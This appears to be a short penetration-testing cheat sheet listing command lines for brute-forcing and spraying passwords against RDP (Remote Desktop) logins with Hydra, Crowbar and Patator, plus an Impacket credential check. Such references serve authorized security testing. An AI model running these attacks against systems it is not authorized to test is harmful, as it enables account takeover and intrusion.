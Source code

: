 # RDP

## 01 - Hydra

`$ hydra -U rdp`

`$ hydra -l <username> -p <password> rdp://<IP>/<domain_name>`

## 02 - Crowbar

`$ crowbar -b rdp -s <IP> -u <username> -C passwords.txt -n 1`

`$ crowbar -b rdp -U users.txt -C passwords.txt -s <IP>/<CIDR>`

## 03 - Patator

`$ patator rdp login host=<IP> user=<username> password=FILE0 0=passwords.txt -x ignore:fgrep='ERRCONNECT_LOGON_FAILURE'`

## 03 - Impacket

`$ rdp_check <domain_name>/<username>:<password>@<IP>`